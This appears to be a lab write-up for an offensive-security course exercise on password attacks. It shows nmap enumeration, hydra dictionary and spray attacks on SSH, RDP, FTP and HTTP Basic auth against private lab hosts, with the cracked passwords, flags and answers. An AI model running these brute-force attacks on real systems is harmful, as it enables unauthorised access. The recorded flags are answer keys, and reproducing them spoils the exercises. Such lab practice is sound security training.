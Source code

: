 

# 15.1.1 Network Services


1. Follow the steps outlined in this section to leverage a dictionary attack to get access to SSH (port 2222) on VM #1 (BRUTE). Find the flag in the _george_ user's home directory.

```bash
# Enumerate
sudo nmap -Pn 192.168.241.201
	PORT     STATE SERVICE
	22/tcp   open  ssh
	2222/tcp open  EtherNetIP-1

sudo nmap -sV 192.168.241.201
	PORT     STATE SERVICE VERSION
	2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Use hydra
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.241.201
	[2222][ssh] host: 192.168.241.201   login: george   password: chocolate

# Login
ssh george@192.168.241.201 -p 2222
	password:   chocolate
```

> Answer:  OS{5042809f26d448f022f68490b351794d}



2. Follow the steps outlined in this section to leverage a dictionary attack to gain access to RDP on VM #2 (BRUTE2). Find the flag on either one of the user's desktops. To reduce the time it takes to perform the password spraying, you can create a list with the two usernames _justin_ and _daniel_.

```bash
# Enumerate
sudo -Pn 192.168.241.202
	PORT     STATE SERVICE
	21/tcp   open  ftp
	135/tcp  open  msrpc
	139/tcp  open  netbios-ssn
	445/tcp  open  microsoft-ds
	3389/tcp open  ms-wbt-server
	8000/tcp open  http-alt

# Password spray attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.241.202
	[3389][rdp] host: 192.168.241.202   login: justin   password: SuperS3cure1337#
	[3389][rdp] host: 192.168.241.202   login: daniel   password: SuperS3cure1337#

# Login
rdesktop 192.168.241.202 -u justin -p SuperS3cure1337#
```

> Answer:  OS{6527425c127b4b1f5938d30c9187ecff}



3. Enumerate VM #3 (BRUTE2) and find another network service. Use the knowledge from this section to get access as the _itadmin_ user and find the flag.

```bash
# Enumerate
sudo nmap -Pn 192.168.241.202
	PORT     STATE SERVICE
	21/tcp   open  ftp
	135/tcp  open  msrpc
	139/tcp  open  netbios-ssn
	445/tcp  open  microsoft-ds
	3389/tcp open  ms-wbt-server
	8000/tcp open  http-alt

# Attack
hydra ftp://192.168.241.202 -l itadmin -P /usr/share/wordlists/rockyou.txt
	[21][ftp] host: 192.168.241.202   login: itadmin   password: hellokitty

# Connect to ftp
ftp 192.168.241.202                                                             
	Connected to 192.168.241.202.
	220-FileZilla Server 1.4.1
	220 Please visit https://filezilla-project.org/
Name (192.168.241.202:kali): itadmin
	331 Please, specify the password.
Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
ftp> ls
	229 Entering Extended Passive Mode (|||52238|)
	150 Starting data transfer.
	-rw-rw-rw- 1 ftp ftp             282 Jun 09  2022 desktop.ini
	-rw-rw-rw- 1 ftp ftp              38 Mar 30 06:01 flag.txt
	226 Operation successful
ftp> get flag.txt
ftp> exit

cat flag.txt
```

> Answer:  OS{df4abd9eb8e51b1ce81dcbc9635535d4}


# 15.1.2 HTTP Post

2. The web page on VM #2 is password protected. Use Hydra to perform a password attack and get access as user _admin_. Once you have identified the correct password, enter it as answer to this exercise.

```bash
# Enumerate
sudo nmap -Pn 192.168.227.201
	PORT   STATE SERVICE REASON
	22/tcp open  ssh     syn-ack ttl 61
	80/tcp open  http    syn-ack ttl 60
```

- Open Burp and turn proxy on
- Navigate to site
- Login user:pass
- Take note of request body and failed login identifier
![](15.1.2.2ex_http_invalid.png)

- As it's only a GET request, research how to use **hydra's** http-get for Basic Authentication
- https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra
```bash
hydra -U http-get
	Help for module http-get:
	============================================================================
	Module http-get requires the page to authenticate.
	The following parameters are optional:
	 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
	 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
	 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
	       valid account has been found, F= means if this string is present the
	       combination is invalid. Note: this must be the last option supplied.
	For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

- Craft attack
```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt "http-get://192.168.227.201:80/:A=BASIC:F=401"
	[80][http-get] host: 192.168.227.201   login: admin   password: 789456]
```

> Answer:  789456